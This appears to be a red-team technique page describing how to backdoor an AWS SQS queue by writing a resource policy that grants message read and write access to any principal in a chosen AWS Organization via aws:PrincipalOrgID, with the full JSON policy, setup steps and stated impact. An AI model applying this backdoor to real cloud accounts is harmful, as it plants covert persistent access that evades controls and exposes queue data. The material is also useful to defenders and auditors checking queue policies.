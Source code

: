 # AWS - SQS OrgID Policy Backdoor

Abuse an SQS queue resource policy to silently grant Send, Receive and ChangeMessageVisibility to any principal that belongs to a target AWS Organization using the condition aws:PrincipalOrgID. This creates an org-scoped hidden path that often evades controls that only look for explicit account or role ARNs or star principals.

### Backdoor policy (attach to the SQS queue policy)

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "OrgScopedBackdoor",
      "Effect": "Allow",
      "Principal": "*",
      "Action": [
        "sqs:ReceiveMessage",
        "sqs:SendMessage",
        "sqs:ChangeMessageVisibility",
        "sqs:GetQueueAttributes"
      ],
      "Resource": "arn:aws:sqs:REGION:ACCOUNT_ID:QUEUE_NAME",
      "Condition": {
        "StringEquals": { "aws:PrincipalOrgID": "o-xxxxxxxxxx" }
      }
    }
  ]
}
```

### Steps
- Obtain the Organization ID with AWS Organizations API.
- Get the SQS queue ARN and set the queue policy including the statement above.
- From any principal that belongs to that Organization, send and receive a message in the queue to validate access.

### Impact
- Organization-wide hidden access to read and write SQS messages from any account in the specified AWS Organization.

